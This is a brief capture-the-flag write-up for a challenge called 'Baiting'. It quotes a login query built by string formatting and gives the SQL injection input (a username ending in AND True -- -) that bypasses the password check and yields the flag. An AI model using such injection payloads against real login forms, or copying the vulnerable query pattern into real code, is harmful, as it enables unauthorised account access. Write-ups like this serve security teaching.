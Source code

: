 # Baiting

### Writeup by dvoak, 200 points

`That user list had a user called loginToGetFlag. Well, what are you waiting for?`

From breaking the SQL, we see `cur.execute("SELECT * FROM users WHERE username='{}' AND password='{}'".format("`


Simply, just make it username='loginToGetFlag' AND True -- -

Username field becomes: loginToGetFlag' AND True -- -

## Flag: ractf{injectingSQLLikeNobody'sBusiness}


